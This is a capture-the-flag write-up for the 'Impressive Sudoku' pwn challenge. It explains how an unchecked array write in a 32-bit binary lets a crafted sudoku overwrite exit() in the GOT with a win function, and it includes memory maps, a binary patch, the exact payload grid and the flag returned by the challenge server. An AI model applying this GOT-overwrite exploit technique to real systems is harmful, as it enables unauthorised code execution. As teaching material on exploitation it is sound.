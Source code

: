 # Day 18 - Impressive Sudoku - pwn, math

> First we asked you to solve a sudoku, now we want you to make one.

Service: nc 3.93.128.89 1218

Download: [4964615443db994db372a3d64524510452521f09809fdb50da22e83d15fb48ca.tar.gz](https://advent2019.s3.amazonaws.com/4964615443db994db372a3d64524510452521f09809fdb50da22e83d15fb48ca.tar.gz)

## Initial Analysis

For this pwn, we're given a C source file along with a compiled binary. This certainly makes the disassembly or reversing part of this challenge easier.

The source asks for a solved sudoku and checks that its valid using an arithmetic shortcut - checking the sum and product of each row. If this passes, it writes 8 values to a "scorer" array, multiplies 9 values in the scorer array, and if the result is > a large value prints a flag. Given that only 8 values are written, this score will always be zero (since at least one value will be zero). Furthermore, writing the scores to the "scorer" array doesn't do any bounds checking so we likely can perform an arbitrary write if we can construct a sudoku

The compiled binary is a 32-bit binary. Based on my initial analysis, I was a little confused about the binary's hardening features. In particular, running `hardening-check` (in the `devscripts` package on Ubuntu) and `readelf` (in the `binutils` package on Ubuntu) clearly inidicate that read-only relocations is enabled (RELRO):

```
root@2b94168a6ea8:/day18# hardening-check ./chal
./chal:
 Position Independent Executable: no, normal executable!
 Stack protected: yes
 Fortify Source functions: unknown, no protectable libc functions used
 Read-only relocations: yes
 Immediate binding: no, not found!
root@2b94168a6ea8:/day18# 
root@2b94168a6ea8:/day18# readelf -l ./chal

Elf file type is EXEC (Executable file)
Entry point 0x8048470
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00120 0x00120 R   0x4
  INTERP         0x000154 0x08048154 0x08048154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x00c78 0x00c78 R E 0x1000
  LOAD           0x000f0c 0x08049f0c 0x08049f0c 0x00124 0x002dc RW  0x1000
  DYNAMIC        0x000f14 0x08049f14 0x08049f14 0x000e8 0x000e8 RW  0x4
  NOTE           0x000168 0x08048168 0x08048168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x000aa0 0x08048aa0 0x08048aa0 0x0005c 0x0005c R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  GNU_RELRO      0x000f0c 0x08049f0c 0x08049f0c 0x000f4 0x000f4 R   0x1

 Section to Segment mapping:
  Segment Sections...
   00     
   01     .interp 
   02     .interp .note.ABI-tag .note.gnu.build-id .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rel.dyn .rel.plt .init .plt .plt.got .text .fini .rodata .eh_frame_hdr .eh_frame 
   03     .init_array .fini_array .dynamic .got .got.plt .data .bss 
   04     .dynamic 
   05     .note.ABI-tag .note.gnu.build-id 
   06     .eh_frame_hdr 
   07     
   08     .init_array .fini_array .dynamic .got 
```

However, digging a little further, we can see that the global offset table (GOT) actually starts at address 0x0804a000 - after the `GNU_RELRO` section, and in fact that page is marked read-write when the binary is running:

```
root@2b94168a6ea8:/day18# ./chal
Could you give me a fully solved sudoku?
Enter 9 lines, each containing 9 integers, space separated:
^Z
[1]+  Stopped                 ./chal
root@2b94168a6ea8:/day18# cat /proc/`pidof chal`/maps
08048000-08049000 r-xp 00000000 00:4d 20354301                           /day18/chal
08049000-0804a000 r--p 00000000 00:4d 20354301                           /day18/chal
0804a000-0804b000 rw-p 00001000 00:4d 20354301                           /day18/chal 			<--- the GOT is in this page
f74fb000-f76d0000 r-xp 00000000 08:01 316321                             /lib/i386-linux-gnu/libc-2.27.so
f76d0000-f76d1000 ---p 001d5000 08:01 316321                             /lib/i386-linux-gnu/libc-2.27.so
f76d1000-f76d3000 r--p 001d5000 08:01 316321                             /lib/i386-linux-gnu/libc-2.27.so
f76d3000-f76d4000 rw-p 001d7000 08:01 316321                             /lib/i386-linux-gnu/libc-2.27.so
f76d4000-f76d7000 rw-p 00000000 00:00 0 
f76dc000-f76de000 rw-p 00000000 00:00 0 
f76de000-f76e0000 r--p 00000000 00:00 0                                  [vvar]
f76e0000-f76e1000 r-xp 00000000 00:00 0                                  [vdso]
f76e1000-f7707000 r-xp 00000000 08:01 316317                             /lib/i386-linux-gnu/ld-2.27.so
f7707000-f7708000 r--p 00025000 08:01 316317                             /lib/i386-linux-gnu/ld-2.27.so
f7708000-f7709000 rw-p 00026000 08:01 316317                             /lib/i386-linux-gnu/ld-2.27.so
ffc08000-ffc29000 rw-p 00000000 00:00 0                                  [stack]
```

As you can see above, the binary is also not randomized, so all addresses in `chal` should be fixed. With this in mind, my goal was now to overwrite the `exit()` address in the GOT with the "scorer" writes from a valid sudoku.

Also, if you couldn't tell already, I did most of my testing in an Ubuntu docker container with my working directory mounted at `/day18`. I started this with:

```
$ docker run -it --cap-add=ALL -v `pwd`:/day18 ubuntu:latest
```

## Creating the overwrite

The first step to this was going to be to solve the overwrite part. To check just this alone, I just edited the `chal` binary so that the `check()` funtion always returned 1. This was done by patching the bytes at address 0x000005F0 with `B8 01 00 00 00 C3` which is x86 assembly for "mov eax, 1; ret".

Next, I calculated that if I had a sudoku with "-105" in position (7,7), and 0x08048799 (the address for the `win()` function), then the loop

```c
for (int i = 0; i < 8; i++) {
    scorer[sudoku[i][i]] = sudoku[i + 1][i + 1];
}
```

would correctly set the address of `exit()` in the GOT with the win function. Since the binary is 32-bit and all of the sudoku values are integers, we can adjust these two values mod 2^32 to get the following. Testing this out on our patched binary gives us the flag (locally).

```
root@2b94168a6ea8:/day18# echo winwinwin > flag.txt
root@2b94168a6ea8:/day18# ./chal_nocheck 
Could you give me a fully solved sudoku?
Enter 9 lines, each containing 9 integers, space separated:
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
1 1 1 1 1 1 1 4294967191 134514585
Let me take a look...
That is an unimpressive sudoku.
winwinwin
root@2b94168a6ea8:/day18# 
```

Now, all I needed to do was have those two values in my sudoku, and create the rest of the square to not touch any other sensitive memory addresses (and cause something like a segfault).

## The math

As the category for this sudoku alluded to, there was not some math to dig into. The only check on the sudoku is that the product and sum of each row, column, and 3x3 grid come to 45 and 362880 respectively. To simplify the problem, if we can create one row with our two target values, several low-value integers, and then some other values, then we should be able to pass these two checks and also not attempt to access we shouldn't when computiing the "solver" array.

To simplify the problem, I decided that I would create a row with my two target values, a bunch of "1"s, and then two "bad" values that would fix the math for the check function, but not appear on the diagonal. With one row in hand, I could make sure that the nine values from that row occurred in each row, column, and 3x3 grid while at the same time making sure that values I didn't like wouldn't appear on the diagonal.

I also chose two variable values because the problem boiled down to two equations (multiply & addition), and two unknowns. In retrospect, I probably could have just run an exhaust on all 2^32 possibilities, but I went the difficult route of solving a quadratic equation modulo 2^32. The math is a little lengthy to describe here, but you can read it in my [solver script](./solutions/day18_solver.py).

Running the script in total outputs my sudoku, and then piping the result to the service gives the flag:

```
$ ./day18_solver.py 
1 134514585 1 317322728 1 1 4294967191 3843130128 1
317322728 1 1 4294967191 3843130128 1 1 134514585 1
4294967191 3843130128 1 1 134514585 1 317322728 1 1
134514585 1 317322728 1 1 4294967191 3843130128 1 1
3843130128 1 1 134514585 1 317322728 1 1 4294967191
1 1 4294967191 3843130128 1 1 134514585 1 317322728
1 4294967191 3843130128 1 1 134514585 1 317322728 1
1 1 134514585 1 317322728 1 1 4294967191 3843130128
1 317322728 1 1 4294967191 3843130128 1 1 134514585
$ ./day18_solver.py | nc 3.93.128.89 1218
Could you give me a fully solved sudoku?
Enter 9 lines, each containing 9 integers, space separated:
Let me take a look...
That is an unimpressive sudoku.
AOTW{Th3t_is_such_aN_1mpr3ssive_Sud0ku}$ 
```
